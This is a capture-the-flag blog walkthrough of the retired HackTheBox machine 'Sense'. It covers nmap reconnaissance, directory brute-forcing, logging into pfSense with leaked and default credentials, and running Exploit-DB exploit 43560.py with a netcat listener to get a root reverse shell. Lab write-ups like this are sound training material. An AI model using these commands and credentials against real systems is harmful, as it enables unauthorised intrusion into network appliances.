









--- 
draft: false
date: 2022-02-17T17:31:06+01:00
title: "Sense Walkthrough - Hackthebox"
description: "A walkthrough of hackthebox machines"
slug: ""
authors: ""
tags:
- Hackthebox
- Walkthrough
images:

  - url: 
    alt: 
categories: ""
externalLink: ""
series: ""
---
I'll be starting a blog series on HackTheBox retired machines, and this will be the first machine I'll be publishing a walkthrough on.

<!--more-->
### Why retired machines?
HackTheBox allows writeups or walkthroughs for retired machines only.

### Machine Info
Box Name  ⇒ Sense

IP  ⇒  10.10.10.60

OS  ⇒  FreeBSD

Let's fire up our VPN comrades, we're going on a ride!

### Recon
I started by running a Nmap scan to gather information about the open ports and services running on this machine.

```bash
nmap -A -T4 -p- 10.10.10.60
Starting Nmap 7.91 ( https://nmap.org ) at 2021-03-08 05:23 EST
Nmap scan report for 10.10.10.60
Host is up (0.36s latency).
Not shown: 65533 filtered ports
PORT    STATE SERVICE    VERSION
80/tcp  open  http       lighttpd 1.4.35
|_http-server-header: lighttpd/1.4.35
|_http-title: Did not follow redirect to https://10.10.10.60/
443/tcp open  ssl/https?
| ssl-cert: Subject: commonName=Common Name (eg, YOUR name)/organizationName=CompanyName/stateOrProvinceName=Somewhere/countryName=US
| Not valid before: 2017-10-14T19:21:35
|_Not valid after:  2023-04-06T19:21:35
|_ssl-date: TLS randomness does not represent time

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 1561.11 seconds
```

Scan result tells me only port `80` and `443` are open. Fired it up in the browser and I got a pfsense login page.



A quick google search for the default credentials revealed `admin:pfsense`, which unfortunately didn't work.

Next, I moved on to do a directory brute force using `dirbuster`



A couple of 200's, interesting! After going through some of the files, I found a `changelog.txt` and `system-users.txt` file. looked it up, contains juicy content.

Changelog.txt contains the following:




System-users.txt contains the following



### Shell

The username `rohit` and the pfsense default password `pfsense` worked.



Most of the menus in the dropdown lead nowhere. The admin page contains a version number 


I checked searchsploit to see if there's an available exploit and found a python exploit.



I download the exploit from exploidb, then set up a netcat listener.

netcat listener
```bash
nc -lnvp 9001
```
exploit
```bash
python3 43560.py --rhost 10.10.10.60 --lhost 10.10.14.12 --lport 9001 --username rohit --password pfsense
```
Upon firing the exploit, I got a root shell



Not a PTY shell, but I wanted to find out if I could grab the flags with my present shell.

found the user flag in the rohit directory



I also found the root flag in the root directory



Bye for now!